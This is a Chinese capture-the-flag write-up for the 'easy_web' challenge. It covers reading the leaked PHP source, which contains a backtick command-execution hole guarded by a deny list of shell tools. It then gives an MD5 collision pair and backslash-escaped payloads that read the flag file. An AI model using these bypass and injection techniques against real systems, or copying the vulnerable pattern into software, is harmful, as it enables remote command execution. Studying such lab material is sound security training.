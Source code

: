 * # 0x01 easy\_web

  关键词：文件读取，源码泄露，md5强碰撞，反斜杠绕过

打开网页发现增加了两个get类型的变量，其中image变量名称怀疑为base64加密后的数据

cmd变量为空，初步猜测为输入点![](C:\Gitbook\Import\heart1ess_s_ctf\assets\axb1.png)经过两次base64解码后发现为十六进制字符串，翻译后得

![](C:\Gitbook\Import\heart1ess_s_ctf\assets\abx2.png)

更改img变量内容发现左上角图片消失，判断可以采用此方法泄露源代码，此时将index.php按顺序加密后作为image变量输入得到base64加密后的源代码，解密后获得源代码如下

    <?php
    error_reporting(E_ALL || ~ E_NOTICE);
    header('content-type:text/html;charset=utf-8');
    $cmd = $_GET['cmd'];
    if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
        header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
    $file = hex2bin(base64_decode(base64_decode($_GET['img'])));
    
    $file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
    if (preg_match("/flag/i", $file)) {
        echo '<img src ="./ctf3.jpeg">';
        die("xixi～ no flag");
    } else {
        $txt = base64_encode(file_get_contents($file));
        echo "<img src='data:image/gif;base64," . $txt . "'></img>";
        echo "<br>";
    }
    echo $cmd;
    echo "<br>";
    if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
        echo("forbid ~");
        echo "<br>";
    } else {
        if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
            echo `$cmd`;
        } else {
            echo ("md5 is funny ~");
        }
    }
    
    ?>
    <html>
    <style>
      body{
       background:url(./bj.png)  no-repeat center center;
       background-size:cover;
       background-attachment:fixed;
       background-color:#CCCCCC;
    }
    </style>
    <body>
    </body>
    </html>

由源代码可知img变量过滤flag，即不能通过img变量获取flag，并且可以通过利用cmd字符串的代码执行漏洞获取flag。

由代码审计可知需要以post方式传入两个变量a和b并且使a与b的md5值相等同时a与b的字符串值不等，这与之前做过的用数组绕过md5的题不同，该题中采用数组绕过md5的过程中会使第一个条件即强行转化字符串后得到的结果也相等，则直接跳转到下一个条件处。因而只能采用md5强碰撞完成，下面给出解该题所用的md5碰撞字符串对：

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

a与b在url解码后进行md5加密得到相同的结果，如下图所示：![](C:\Gitbook\Import\heart1ess_s_ctf\assets\axb3.png)而后通过反斜杠`\`规避正则表达式过滤，最终获取根目录下的flag

Payload：

```
&cmd=dir%20/    //查看根目录下的文件，发现flag
&cmd=ca\t%20/fl\ag    //获取flag
```




